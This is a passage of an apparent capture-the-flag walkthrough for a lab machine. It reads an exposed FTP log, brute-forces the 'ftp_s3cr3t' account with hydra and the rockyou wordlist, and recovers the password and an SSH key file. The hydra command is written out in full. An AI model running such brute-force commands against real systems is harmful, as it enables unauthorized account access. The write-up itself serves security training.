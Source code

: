     /index.html           (Status: 200) [Size: 4]
    /vsftpd.log           (Status: 200) [Size: 1834]

We found the log file for the **`FTP`** server on the machine.

### **http://10.0.0.24/logs/vsftpd.lop:**

    [I 2021-09-28 18:43:57] >>> starting FTP server on 0.0.0.0:21, pid=475 <<<
    [I 2021-09-28 18:43:57] concurrency model: async
    [I 2021-09-28 18:43:57] masquerade (NAT) address: None
    [I 2021-09-28 18:43:57] passive ports: None
    [I 2021-09-28 18:44:02] 192.168.1.83:49268-[] FTP session opened (connect)
    [I 2021-09-28 18:44:06] 192.168.1.83:49280-[] USER 'l4nr3n' failed login.
    [I 2021-09-28 18:44:06] 192.168.1.83:49290-[] USER 'softyhack' failed login.
    [I 2021-09-28 18:44:06] 192.168.1.83:49292-[] USER 'h4ckb1tu5' failed login.
    [I 2021-09-28 18:44:06] 192.168.1.83:49272-[] USER 'noname' failed login.
    [I 2021-09-28 18:44:06] 192.168.1.83:49278-[] USER 'cromiphi' failed login.
    [I 2021-09-28 18:44:06] 192.168.1.83:49284-[] USER 'b4el7d' failed login.
    [I 2021-09-28 18:44:06] 192.168.1.83:49270-[] USER 'shelldredd' failed login.
    [I 2021-09-28 18:44:06] 192.168.1.83:49270-[] USER 'anonymous' failed login.
    [I 2021-09-28 18:44:06] 192.168.1.83:49296-[] USER 'sml' failed login.
    [I 2021-09-28 18:44:09] 192.168.1.83:49292-[] USER 'alienum' failed login.
    [I 2021-09-28 18:44:09] 192.168.1.83:49280-[] USER 'k1m3r4' failed login.
    [I 2021-09-28 18:44:09] 192.168.1.83:49284-[] USER 'tatayoyo' failed login.
    [I 2021-09-28 18:44:09] 192.168.1.83:49278-[] USER 'Exploiter' failed login.
    [I 2021-09-28 18:44:09] 192.168.1.83:49268-[] USER 'tasiyanci' failed login.
    [I 2021-09-28 18:44:09] 192.168.1.83:49274-[] USER 'luken' failed login.
    [I 2021-09-28 18:44:09] 192.168.1.83:49270-[] USER 'ch4rm' failed login.
    [I 2021-09-28 18:44:09] 192.168.1.83:49282-[] FTP session closed (disconnect).                             
    [I 2021-09-28 18:44:09] 192.168.1.83:49280-[ftp_s3cr3t] USER 'ftp_s3cr3t' logged in.                       
    [I 2021-09-28 18:44:09] 192.168.1.83:49280-[ftp_s3cr3t] FTP session closed (disconnect).                   
    [I 2021-09-28 18:44:12] 192.168.1.83:49272-[] FTP session closed (disconnect). 

Looking at the log file, we can see that the user **'ftp_s3cr3t'** was able to log in to the remote server. So let's brute force the password of the user using **`hydra`**.

    root@kali ~/D/M/Hat [SIGINT]# hydra -l 'ftp_s3cr3t' -P /usr/share/wordlists/rockyou.txt ftp://10.0.0.24 -s 65535 -IV 

    [65535][ftp] host: 10.0.0.24   login: ftp_s3cr3t   password: cowboy

After logging in to the **`FTP`** server we can download 2 files, **`id_rsa`** and **`note`**.

### ***note:***

    Hi,

    We have successfully secured some of our most critical protocols ... no more worrying!




    Sysadmin

### ***id_rsa:***


[1]: "https://vk9-sec.com/ssh2john-how-to/"
[2]: "[awd](https://gtfobins.github.io/gtfobins/nmap/)"